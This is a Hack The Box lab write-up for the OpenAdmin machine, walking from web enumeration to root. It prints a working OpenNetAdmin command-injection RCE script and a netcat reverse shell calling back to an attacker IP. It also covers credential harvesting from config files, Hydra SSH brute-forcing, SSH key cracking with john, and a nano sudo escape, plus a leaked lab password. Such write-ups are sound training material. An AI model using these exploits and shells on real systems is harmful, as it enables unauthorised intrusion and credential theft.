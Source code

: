 ```yaml
---
cover: ../.gitbook/assets/ChatGPT Image May 31, 2025, 09_02_25 AM.png
coverY: 0
---
```


# 🕵️ HTB: OpenAdmin – RCE, Privilege Escalation, and the Art of Improvisation

<figure><img src="../.gitbook/assets/ChatGPT Image May 31, 2025, 09_02_25 AM.png" alt=""><figcaption></figcaption></figure>

### 🔍 Enumeration Phase

We begin the usual way—**recon** with `nmap`.

**Open ports**:

* 22 (SSH)
* 80 (HTTP)

Port 80 means web enumeration. Time to let **ffuf** loose:

<figure><img src="../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
ffuf -u http://10.10.10.171/FUZZ -w /usr/share/wordlists/dirb/common.txt -mc 200,204,301,302,307,401 -o results.txt
```

**Interesting hits**:

* `/music/`
* `/sierra/`
* `/artwork/`

Crawling with **hakrawler** through Burp gave a promising path:

```bash
cat urls.txt | hakrawler -proxy http://localhost:8080
```

Bingo. This is **OpenNetAdmin**, and version **18.1.1** specifically.

### 💥 Initial Foothold: RCE via OpenNetAdmin

Quick search on [ExploitDB](https://www.exploit-db.com/exploits/47691) brings up an RCE:

```bash
#!/bin/bash

URL="${1}"
while true;do
 echo -n "$ "; read cmd
 curl -x http://localhost:8080 --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";${cmd};echo \"END\"&xajaxargs[]=ping" "${URL}" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
done
```

With a little Burp Proxy magic, we got a working shell. Though unstable, it did the job.

### 🧠 Privilege Escalation Begins

Time for lateral movement. Classic reverse shell:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 1234 >/tmp/f

```

```bash
nv -lvnp 1234
```

```bash
/usr/bin/python3 -c 'import pty;pty.spawn("/bin/bash")'
```

### 📦 Credential Harvesting

A quick loot run on config files reveals gold:

```bash
cat /var/www/html/ona/local/config/database_settings.inc.php
```

```bash
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
```

### 🔐 SSH Brute-force and User Access

Grabbed usernames from `/etc/passwd`:

```
jimmy  
joanna  
root  
```

Brute-forced via Hydra:

```bash
hydra -L user.txt -P password.txt ssh://10.10.10.171

```

🎯 Hit confirmed: jimmy : n1nj4W4rri0R!



```bash
ssh jimmy@10.10.10.171
```

### 🕵️ Discovery and Key Recovery

Exploring `/var/www/internal` (finally accessible as jimmy), we find something new. The page isn’t accessible over HTTP, but we can curl it locally:

```bash
curl localhost:52846/main.php
```

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And boom—we find an SSH private key.

But it's encrypted. Time for `john` magic:

```bash
ssh2john key > hash  
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

### ⚡ Privilege Escalation to Root

We check what joanna can run:

```
sudo -l
```

Allowed to run:

```
/bin/nano /opt/priv
```

We abuse it using a classic `nano` GTFOBins technique:

Inside nano:

```
^R^X
cat /root/root.txt
```

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

for a shell

```
^R^X
reset; sh 1>&0 2>&0

```

